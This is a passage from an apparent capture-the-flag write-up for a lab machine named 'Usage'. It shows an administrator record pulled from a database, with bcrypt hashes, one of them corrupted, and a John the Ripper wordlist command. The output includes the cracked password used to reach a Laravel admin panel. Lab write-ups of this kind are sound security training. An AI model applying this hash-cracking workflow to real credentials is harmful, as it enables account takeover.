 ```sh
retrieved: {"name":"Administrator","password":"$2y$10$E9.N1P92fYSjJGQDfBrUaO05EHV4BuiQIAciAMA?!M   mA2%A?H?K","password_confirmation":"$2y$10$E9.N1P92fYSjJGQDeBrUaJ))ABA!1a?  ?  )a !!A? ?    i1A?? ??    11!?!?Q?? ?a?  zpIB8ykA2Ya@d1?i????9xUdwBSS02","_method":"PUT"}

````

This second hash seems to be corrupted during the dumping of the database. Using JohnTheRipper, we can crack the first hash with the following command:

```sh
john --wordlist=/home/kali/SecLists/Passwords/Leaked-Databases/rockyou.txt hash
```

And here is the result and the cracked password:

```sh
┌──(kali㉿kali)-[~/maquinas/Usage]
└─$ john --wordlist=/home/kali/SecLists/Passwords/Leaked-Databases/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
whatever1        (?)     
1g 0:00:00:09 DONE (2024-05-30 11:20) 0.1096g/s 177.6p/s 177.6c/s 177.6C/s alexis1..serena
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

And now, we can log in to the admin Laravel page:


![image](Scr_4.png)


## Initial access


[comment]: <> (Insertar imagen de la carátula de la máquina)